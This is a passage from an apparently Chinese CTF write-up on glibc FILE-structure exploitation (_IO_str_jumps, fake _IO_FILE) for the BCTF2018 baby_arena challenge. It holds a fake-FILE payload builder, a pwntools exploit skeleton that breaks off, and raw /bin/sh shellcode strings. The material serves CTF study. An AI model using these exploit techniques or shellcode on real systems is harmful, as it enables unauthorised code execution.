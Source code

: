 ```c
//绕过条件
fp->_mode <= 0	
fp->_IO_write_ptr > fp->_IO_write_base	

fp->_flags = 0
fp->_IO_write_ptr = 0xffffffffffffffff
fp->_s._allocate_buffer = system_addr
fp->_IO_buf_base = 0
fp->_IO_buf_end = (binsh_addr-100)//2
```

```python
def FILE(binsh,system,IO_str_jumps):
	fake_IO_FILE  = p64(0xfbad1800) + p64(0)*3
	fake_IO_FILE += p64(0) + p64(0xffffffffffffffff) # fp->_IO_write_ptr > fp->_IO_write_base; pos >= (_IO_size_t) (_IO_blen (fp) + flush_only)
	fake_IO_FILE += p64(0)*2 + p64((binsh-100)//2)
	fake_IO_FILE = fake_IO_FILE.ljust(0xC0,'\x00')
	fake_IO_FILE += p64(0) + p64(0)*2	# _mode <= 0
	fake_IO_FILE += p64(IO_str_jumps)
	fake_IO_FILE += p64(system) # 0xe0 _s._allocate_buffer
	return fake_IO_FILE
```

### baby_arena_BCTF2018(libc2.27/global_max_fast任意地址写利用)

2.27下新增了对vtable位置的检测，主要考虑使用原生vtable进行修改

同样的题，版本不一样，这里system("/bin/sh")getshell，申请的size大小有所区别，这里用显式exit触发`_IO_flush_all_lockp`

![image-20220601172226857](https://e4l4pic.oss-cn-beijing.aliyuncs.com/img/image-20220601172226857.png)

```python
# _*_ coding:utf-8 _*_
from pwn import *
context(arch='amd64', os='linux')
context.log_level = 'debug'

p = process('./baby_arena')
elf = ELF("./baby_arena")
libc = elf.libc
def dbg():
    gdb.attach(p)

#-----------------------------------------------------------------------------------------
s       = lambda data               :p.send(str(data))
sa      = lambda text,data          :p.sendafter(text, str(data))
sl      = lambda data               :p.sendline(str(data))
sla     = lambda text,data          :p.sendlineafter(text, str(data))
r       = lambda num=4096           :p.recv(num)
ru      = lambda text               :p.recvuntil(text)
uu32    = lambda                    :u32(p.recvuntil("\xf7")[-4:].ljust(4,"\x00"))
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda s                  :p.success('%s -> 0x%x' % (s, eval(s)))

sh_x86_18="\x6a\x0b\x58\x53\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x86_20="\x31\xc9\x6a\x0b\x58\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80"
sh_x64_21="\xf7\xe6\x50\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x48\x89\xe7\xb0\x3b\x0f\x05"
#https://www.exploit-db.com/shellcodes
#-----------------------------------------------------------------------------------------

user = 0x6020B0

def add(size,con):
    sla("4.exit",1)
```